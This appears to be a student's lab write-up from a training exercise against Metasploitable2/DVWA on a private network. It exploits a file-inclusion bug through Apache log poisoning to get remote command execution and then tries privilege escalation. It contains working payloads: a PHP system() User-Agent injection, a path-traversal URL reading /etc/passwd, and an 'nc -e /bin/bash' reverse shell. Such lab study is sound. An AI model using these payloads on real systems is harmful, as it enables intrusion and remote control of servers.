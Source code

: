 ```yaml
---

# Lab09 – Remote Command Execution (RCE) via Apache Log Poisoning

##  Description

In this lab, we exploited a **Local File Inclusion (LFI)** vulnerability to achieve **Remote Command Execution (RCE)** using **Apache log poisoning**. We established a **reverse shell** using Netcat and attempted multiple **privilege escalation** techniques via `SUID binaries`, `nmap`, `chsh`, and `cron jobs`. Although we didn’t achieve root access, we successfully gained deep system interaction and learned a lot about real-world privilege escalation obstacles.

---
```


##  Target System

- **VM**: Metasploitable2
- **Kernel**: Linux 2.6.24-16-server i686
- **IP Address**: `192.168.56.103`

---

## Exploitation Steps

### 1. Information Gathering

- Discovered LFI vulnerability in DVWA:

http://192.168.56.103/dvwa/vulnerabilities/fi/?page=.../etc/passwd

### 2. Apache Log Poisoning

- Injected payload via `User-Agent` using curl:
```bash
curl -A "<?php system($_GET['cmd']); ?>" http://192.168.56.103

Accessed poisoned log file using LFI:

http://192.168.56.103/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log&cmd=id
```

### 3.  Remote Command Execution

Executed system commands through cmd= parameter:

http://192.168.56.103/html/shell.php?cmd=whoami


### 4.  Reverse Shell with Netcat

Listener on Kali:

nc -lvnp 4444

Triggered reverse shell via:

http://192.168.56.103/html/shell.php?cmd=nc -e /bin/bash 192.168.56.102 4444


### 5.  Shell Stabilization

Upgraded to interactive shell:

python -c 'import pty; pty.spawn("/bin/bash")'



---

## Privilege Escalation Attempts

Method	Result	Notes

SUID /usr/bin/chsh	-> Permission denied	No shell switch
SUID /usr/bin/nmap	-> No interactive mode	Only version 4.53
Cronjob abuse	-> No writable scripts	No exploitable path
find writable files	-> Not useful	No execution or cron abuse path


Despite creative attempts using pty, nmap, shell.php, and find, no working LPE path was identified without importing a kernel exploit binary.


---

## Screenshots

1. 


2. 


3. 


4. 




---

## What I Learned

How LFI can lead to RCE via Apache log poisoning.

Creating and triggering a reverse shell from a PHP payload.

Common privilege escalation paths using SUID binaries, cron, and environment variables.

Realized that not every target leads to root without kernel-level exploits.

The importance of exploration, enumeration, and patience.



---

## Limitations

Could not achieve root due to:

No writable cron scripts.

No interactive nmap shell.

SUID binaries not vulnerable.




---

## Lab Status

[x] Gained RCE

[x] Achieved reverse shell

[x] Performed enumeration and privesc attempts

[ ] Root access (not achieved)

